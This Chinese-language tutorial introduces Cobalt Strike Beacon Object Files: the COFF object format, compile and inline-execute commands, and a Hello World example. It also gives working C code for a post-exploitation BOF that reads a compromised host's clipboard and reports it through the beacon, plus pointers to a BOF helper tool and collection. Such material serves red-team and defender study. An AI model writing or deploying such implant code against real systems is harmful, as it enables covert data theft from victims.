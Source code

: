 ```yaml
---
title: 介绍CobaltStrike新功能BOF
tags: CobaltStrike
---
```


## What is COFF?

COFF – 通用对象文件格式（Common Object File Format），是一种很流行的**对象**文件格式（注意：这里“对象这个用词，这种格式不只用于目标文件，库文件、可执行文件也经常是这种格式）。我们编写的C++对象文件，先会被***编译***成为一个和文件同名且格式为obj的文件，然后链接器会将这些obj文件***链接***成Exe或者DLL这样的PE文件。这里的obj文件就是COFF格式的。其它的编译器，如GCC（GNU Compiler Collection）、ICL（Intel C/C++ Compiler）、VectorC，也使用这种格式的目标文件。不仅仅是C/C++，很多其它语言也使用这种格式的对象文件。统一格式的目标文件为混合语言编程带来了极大的方便。而且常见的对象文件格式还有OMF-对象模型文件（Object Module File）以及ELF-可执行及连接文件格式（Executable and Linking Format）。

[更多关于COFF文件格式](http://www.cppblog.com/elva/archive/2008/03/24/45231.html)

## Beacon Object Files

官方定义：

> A Beacon Object File (BOF) is a compiled C program, written to a convention that allows it to execute within a Beacon process and use internal Beacon APIs. BOFs are a way to rapidly extend the Beacon agent with new post-exploitation features.

- BOF实际上也是一个COF文件格式，BOF实际上是编译后的obj文件，并没有常规的进行后续的链接生成EXE或DLL所以好处就是**体积小**。

- 开发BOFs也很容易，只需要一个Win32 C Compiler 可以跨平台编译

- 对于Beacon，BOF只是一个位置无关的代码块，对于CS端，会解析然后作为一个链接器加载它的内容。

- CS无法与libc链接，可以使用其他代替

- BOF在目标的beacon中执行，如果写的BOF发生异常崩溃，那么这个beacon也会崩溃，所以务必要写好你的BOFs

## How do I develop a BOF?

*Easy. Open up a text editor and start writing a C program. Here's a Hello World BOF:*

```c
#include <windows.h>
#include "beacon.h"

void go(char * args, int alen) {
      BeaconPrintf(CALLBACK_OUTPUT, "Hello World: %s", args);
}
```

> Download beacon.h (you'll need it):
>
> https://www.cobaltstrike.com/downloads/beacon.h
>
> To compile this with Visual Studio:
>
> **cl.exe /c /GS- hello.c /Fohello.o**
>
> To compile this with x86 MinGW:
>
> **i686-w64-mingw32-gcc -c hello.c -o hello.o**
>
> To compile this with x64 MinGW:
>
> **x86_64-w64-mingw32-gcc -c hello.c -o hello.o**
>
> The above commands will produce a hello.o file. Use inline-execute in Beacon to run the BOF.
>
> **beacon> inline-execute /path/to/hello.o these are arguments**



值得注意的是，`beacon.h`包含了一些Beacon APIs，例如上例的`BeaconPrintf`在Beacon中进行打印操作，并且主程序是void类型的名为go(可以修改)，这个和我们一般的C程序main函数类似，用作`inline-execute`去调用。



如果你想编写cna脚本方便调用BOF的话，CobaltStrike也提供了相应的Functions

<img src="https://gitee.com/evilashz/MyIMGs/raw/master/img/image-20200819132454326.png" alt="image-20200819132454326" style="zoom:50%;" />

更多查看：[beacon_inline_execute](https://www.cobaltstrike.com/aggressor-script/functions.html#beacon_inline_execute)



**比如一个记录目标beacon上剪切板内容的示例程序：**

```c
#include <windows.h>
#include <string.h>
#include <winuser.h>
#include "beacon.h"

DECLSPEC_IMPORT HWND WINAPI KERNEL32$GetConsoleWindow(void);
DECLSPEC_IMPORT WINUSERAPI BOOL WINAPI USER32$OpenClipboard(HWND);
DECLSPEC_IMPORT WINUSERAPI HANDLE WINAPI USER32$GetClipboardData(UINT);
DECLSPEC_IMPORT WINUSERAPI BOOL  WINAPI USER32$CloseClipboard(void);


 void go() {

    HWND owner = KERNEL32$GetConsoleWindow(); 
    USER32$OpenClipboard(owner);
    owner = USER32$GetClipboardData(CF_TEXT);
    BeaconPrintf(CALLBACK_OUTPUT, "%s\n", (char *)owner);;
    USER32$CloseClipboard();
 }
```

可以发现和普通C程序不一样的地方，调用的WINAPI前需加`$`以及Library名字，以及上面声明的时候，编写的时候可以先正常的编写并测试完成后，再修改为BOF程序，可以查看WINAPI的声明处，自己修改为这个格式，有很多你不知道是哪些Library的话就得查找资料，这里我推荐一个[bof_helper](https://github.com/dtmsecurity/bof_helper)

这个项目可以直接帮你查找相应的方法的头文件声明，并且转换为BOF编写需要的格式，所以直接可以复制结果到你的BOF程序中

https://github.com/dtmsecurity/bof_helper

比如：

```shell
python3 bof_helper.py DsGetDcNameA
██████╗  ██████╗ ███████╗
██╔══██╗██╔═══██╗██╔════╝
██████╔╝██║   ██║█████╗
██╔══██╗██║   ██║██╔══╝
██████╔╝╚██████╔╝██║
╚═════╝  ╚═════╝ ╚═╝
BOF Helper by @dtmsecurity

[Library] DsGetDcNameA is probably in NetApi32

[Declaration] DWORD WINAPI DsGetDcNameA(LPCSTR, LPCSTR, GUID*, LPCSTR, ULONG, PDOMAIN_CONTROLLER_INFOA*);

[BOF Helper]
DECLSPEC_IMPORT DWORD WINAPI NETAPI32$DsGetDcNameA(LPCSTR, LPCSTR, GUID*, LPCSTR, ULONG, PDOMAIN_CONTROLLER_INFOA*);
```

有了这个就可以开始编写自己的BOF了

下面这个项目给了很多官方示例

https://github.com/rvrsh3ll/BOF_Collection



**执行方式：**

使用`inline-execute`执行记录剪切板

![屏幕快照 2020-08-19 14.10.21](https://gitee.com/evilashz/MyIMGs/raw/master/img/20200819141135.png)

使用Aggressor Script提供的`inline-execute`方法编写cna，直接命令加参数执行扫描端口BOF

![image-20200819141217691](https://gitee.com/evilashz/MyIMGs/raw/master/img/20200819141221.png)

